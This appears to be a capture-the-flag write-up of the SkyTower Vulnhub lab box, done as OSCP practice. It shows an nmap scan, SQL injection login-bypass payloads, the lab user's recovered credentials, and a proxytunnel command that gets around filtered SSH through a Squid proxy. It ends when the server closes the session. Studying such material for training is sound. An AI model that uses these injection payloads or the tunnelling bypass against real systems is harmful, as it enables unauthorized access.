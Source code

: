 # Write-up SkyTower (OSCP Like box)

- Box Name : SkyTower
- Difficulty : quite easy
- Time to root : 30 minutes

## Introduction

  While waiting for the start of my OSCP journey, I use to train a lot on HTB and Vulnhub Boxes. Today my internet connection was very poor , so I manage de find a way by downloading Skytower form Vulnhub (This box was recommanded for OSCP training)
  
  
## Enumaration

  ### Port scanning
  
  As usual, i'm starting by doing a TCP scan, with common script and service enumaration :
  
  ```
root@kali ~/v/skytower# nmap -sC -sV 172.20.10.4
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 08:16 EST
Nmap scan report for 172.20.10.4
Host is up (0.00028s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
_http-server-header: Apache/2.2.22 (Debian)
_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
 http-open-proxy: Potentially OPEN proxy.
_Methods supported: GET HEAD
_http-server-header: squid/3.1.20
_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
```

For conclusion, we have a webserver running on port 80, Squid Proxy on 3128, and SSH is filtered...

  ### Port 80
  
  All we have is a simple html login page, running gobuster doesn't reveal much more ...
  No cookie, or strange http headers value, we will come back on this service during exploitation phase.
  
  ### Port 3128
  
  Simple squid, this version doest not seems to be vulnerable to any known vulnerabilites, we need a password to use this service, we are unable to use it now.
  
  ## Exploitation
  
  The first thing to try on this simple login form is SQL injection, we can try do do some login bypass techniques :
  ```admin' OR 1=1--```
  Which return this :
  ```There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11' and password=''' at line 1]```
  
  This is quite good for the following of the pentest, we can now use our SQLi-Fu art to by-pass this login, and the final payload is :
  ```admin' || 1=1#```
  
  Wich give us access to the next page.
  
  The next page is quite useless except a username and a password for john !
  ```
  Username: john
Password: hereisjohn
```

We can now try this on ssh :

```ssh john@172.20.10.4```
But this doesn't work because the port is filtered. Maybe we can bypass this filter by using our creds on Squid Proxy:

```proxytunnel -v -p 172.20.10.4:3128 -P john:hereisjohn -d 127.0.0.1:22 -a 4444```

It works !
We can now try to login on the box with ssh :

```ssh john@127.0.0.1 -p 4444
The authenticity of host '[127.0.0.1]:1234 ([127.0.0.1]:1234)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:1234' (ECDSA) to the list of known hosts.
john@127.0.0.1's password:hereisjohn
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 127.0.0.1 closed.
root@kali:~#
```

Aaaaand ... we are eject by the server.
